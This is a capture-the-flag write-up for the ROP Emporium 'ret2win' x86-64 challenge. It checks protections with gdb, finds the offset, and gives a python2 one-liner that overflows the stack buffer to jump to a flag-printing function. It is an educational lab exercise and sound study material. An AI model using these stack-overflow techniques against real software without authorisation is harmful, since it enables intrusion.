 
### ret2win x86 64

Run the binary will see following message.

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

It also tells us that there is a function named ret2win and will cat the flag.txt. Therefore,  we only need to overwrite the return address to the address of the syscall in ret2win function.

Use gdb to gather information.
```
gdb ./ret2win
```
Check the security of ret2win.
```
gdb$ checksec

```
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
No canary, no pie.
List all functions.
```
gdb$ info functions
```
```
...
0x0000000000400697  main
0x00000000004006e8  pwnme
0x0000000000400756  ret2win
...
```
There is indeed a function called ret2win.
Disassemble ret2win to obtain the return address.
```
gdb$ disas ret2win 
```
```
...
0x0000000000400764 <+14>:    mov    edi,0x400943
0x0000000000400769 <+19>:    call   0x400560 <system@plt>
...
```
The address of the syscall is 0x0000000000400764.
Overflow length will be 32 bytes(buffer) + 8 bytes (RBP) = 40 bytes.
Therefore, the overflow strings will be:
```
A'*40+'\x64\x07\x40\x00\x00\x00\x00\x00'
```
Run the process with overflow strings:
```
python2 -c "print 'A'*40+'\x64\x07\x40\x00\x00\x00\x00\x00'" | ./ret2win
```
It will show the flag:
```
ROPE{a_placeholder_32byte_flag!}
```
